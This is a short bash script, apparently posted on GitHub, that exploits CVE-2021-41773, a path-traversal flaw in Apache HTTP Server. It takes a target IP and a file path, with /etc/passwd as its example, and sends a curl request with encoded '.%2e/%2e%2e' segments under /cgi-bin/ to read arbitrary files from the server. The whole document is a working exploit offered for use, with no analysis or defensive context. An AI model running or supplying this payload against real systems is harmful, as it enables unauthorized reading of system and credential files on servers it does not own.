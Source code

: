 #!/bin/bash
# written by SteveIrwinCyber 
if [ "$1" == "-h" ] ; then
        echo "Syntax: ./CVE-2021-41773.sh <IP> <File>" 
        echo "./CVE-2021-41773.sh 192.168.1.1 /etc/passwd"
        exit 0
fi

if [ -z "$1" ] ; then
        echo "Syntax: ./CVE-2021-41773.sh <IP> <File>"
        echo "./CVE-2021-41773.sh 192.168.1.1 /etc/passwd"
        exit 0
fi

curl -s --path-as-is "http://$1:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/$2"
